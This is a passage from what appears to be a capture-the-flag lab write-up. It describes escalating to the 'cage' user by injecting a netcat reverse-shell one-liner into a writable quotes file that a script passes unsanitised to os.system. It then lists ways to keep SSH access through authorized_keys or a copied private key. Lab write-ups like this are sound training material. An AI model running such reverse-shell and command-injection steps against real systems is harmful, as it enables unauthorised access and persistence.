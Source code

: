 - I had success with one of the usernames on this list and the password from above.

#### PRIVILEGE ESCALATION ---> CAGE

- `Weston` was able to run the following as sudo

```
User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```

```
#!/bin/bash

wall "AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!!"
```

- Which was just a bash script that we couldn't edit. 
- However, at random intervals, there were some `wall` messages containing quotes that were being sent by cage. 

- I managed to find the script running these messages in 

```
/opt/.dads_scripts
```

- using `find / -name *quotes* 2>/dev/null`

```
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

- We did not have permissions to write to the script but we had access to write to `.files/.quotes` file.

- This is because it seems we were a member of `cage` group this whole time. 

- Anyway, I've replaced the content of `.quotes` file with the following reverse shell and waited for the script to trigger again

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.53.46 3131 >/tmp/f
```

- This allowed us to gain a reverse shell as cage.

- The first thing I did was to check the home directory ; 

- We can obtain ssh access as cage in different methods

	1. generate a ssh key pair (private + public) and add the public key to the `.ssh/authorized_keys`
	2. copy `.ssh/id_rsa` to attack box and use that to connect as cage.

- First flag is in `/home/cage/Super_Duper_Checklist` file

